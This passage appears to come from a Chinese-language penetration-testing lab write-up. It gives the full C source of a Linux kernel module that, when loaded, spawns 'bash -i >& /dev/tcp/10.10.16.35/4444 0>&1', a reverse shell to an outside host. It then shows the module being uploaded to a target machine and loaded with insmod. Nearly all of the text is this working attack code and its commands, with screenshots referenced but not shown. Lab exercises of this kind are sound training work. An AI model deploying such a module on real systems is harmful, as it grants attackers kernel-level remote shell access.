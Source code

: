 reverse-shell.c

```
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");

char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.16.35/4444 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };

// call_usermodehelper function is used to create user mode processes from kernel space
static int __init reverse_shell_init(void) {
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {
    printk(KERN_INFO "Exiting\n");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

上传到靶机

![image-20240807190016471](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240807190016471.png)

![image-20240807190411321](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240807190411321.png)

```
insmod reverse-shell.ko
```

![image-20240807190502837](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240807190502837.png)

![image-20240807190517864](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240807190517864.png)
